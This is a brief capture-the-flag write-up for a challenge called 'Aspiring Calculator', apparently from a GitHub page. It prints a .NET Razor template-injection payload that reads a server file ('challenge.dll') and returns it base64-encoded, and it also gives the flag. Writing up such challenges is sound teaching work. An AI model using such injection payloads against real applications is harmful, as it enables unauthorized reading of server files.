 # Aspiring Calculator

paylod: `1)@using System.IO@(Convert.ToBase64String(File.ReadAllBytes("challenge.dll")))@(1`

smells like eval in python

flag: **TUCTF{SST1_1NT0_D0TN3T_1S_L3_EP1C_184598}**